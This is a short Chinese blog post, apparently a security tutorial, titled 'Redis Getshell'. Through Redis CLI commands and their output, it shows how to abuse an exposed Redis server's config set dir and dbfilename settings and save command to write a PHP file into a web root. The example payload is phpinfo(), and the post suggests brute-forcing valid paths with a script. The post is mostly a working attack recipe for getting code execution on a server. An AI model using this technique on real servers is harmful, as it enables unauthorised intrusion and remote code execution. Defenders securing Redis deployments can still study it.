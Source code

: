 ```yaml
---
title: "Redis Getshell"
date: 2018-03-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['redis']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


本质上是 redis RDB 方式指定保存数据库的路径.

<!--more-->

## 介绍

redis 配置里有 dir 和 dbfilename

dir 存储路径 dbfilename 存储文件名

```
127.0.0.1:6379> config get dir
1) "dir"
2) "F:\Redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```

save 保存

## 利用

`config set dir 路径`

`config dbfilename 文件名`

`set web 内容`

`save`

```
127.0.0.1:6379> config set dir F:\phpStudy\WWW
OK
127.0.0.1:6379> config set dbfilename 'info.php'
OK
127.0.0.1:6379> set web '<?php phpinfo() ?>'
OK
```

另外 config set 不存在的 dir 会报错.

```
127.0.0.1:6379> config set dir F:\fakepath
(error) ERR Changing directory: No such file or directory
```

可以写脚本爆破路径
